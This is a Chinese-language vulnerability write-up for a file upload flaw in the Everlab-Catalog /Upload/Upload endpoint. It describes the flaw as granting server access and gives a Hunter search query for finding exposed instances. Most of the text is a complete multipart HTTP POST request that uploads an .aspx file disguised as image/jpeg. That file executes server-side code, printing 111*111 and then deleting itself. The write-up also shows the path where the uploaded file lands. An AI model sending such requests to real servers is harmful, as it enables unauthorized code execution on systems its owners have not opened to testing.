# 一、漏洞简介
Everlab-Catalog Upload存在文件上传漏洞，攻击者可通过该漏洞获取服务器权限。

# 二、影响版本
+ Everlab-Catalog 

# 三、资产测绘
+ Hunter`web.body="Everlab-Catalog"`
+ 特征

![](images/1703513896192-bf6c7b0e-1d5e-4545-b55a-407ad59256a2.png)

# 四、漏洞复现
```java
POST /Upload/Upload HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/115.0
Content-Length: 345
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,/;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Connection: close
Content-Type: multipart/form-data; boundary=---------------------------7153094104923513110228090822
Origin: null
Upgrade-Insecure-Requests: 1
Connection: close

-----------------------------7153094104923513110228090822
Content-Disposition: form-data; name="Filedata"; filename="ckviaxtcmw.aspx"
Content-Type: image/jpeg

<%@ Page Language="C#"%><% Response.Write(111*111);System.IO.File.Delete(Server.MapPath(Request.Url.AbsolutePath)); %>
-----------------------------7153094104923513110228090822--

```

![](images/1718613530489-e7ac31fe-a46f-4dc1-a7c8-9c6163c9dacd.png)

```java
/upload/2024/06/17/69974c6f-44e8-43e9-8b6b-9b2872588fb7.aspx
```

![](images/1718613551729-dc947dbd-5916-4e08-a6df-8f10cf907bb9.png)


